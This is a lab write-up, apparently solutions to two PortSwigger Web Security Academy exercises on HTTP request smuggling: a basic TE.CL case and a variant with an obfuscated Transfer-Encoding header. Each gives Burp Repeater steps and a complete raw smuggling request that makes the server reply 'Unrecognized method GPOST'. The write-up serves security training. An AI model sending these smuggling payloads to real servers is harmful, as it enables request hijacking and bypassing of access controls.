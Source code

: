 ## Quick Solution
As said in the title this website is vulnerable to a simple TE.CL vulnerability. Payload in the next paragraph.


## Solution
In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
The second response should say: ``Unrecognized method GPOST``.

# HTTP request smuggling, obfuscating the TE header
Reference: https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header


## Quick Solution
In this case the TE header had to be obfuscated. Payload in the next paragraph.


## Solution
In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:
```http
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
The second response should say: ``Unrecognized method GPOST``. 
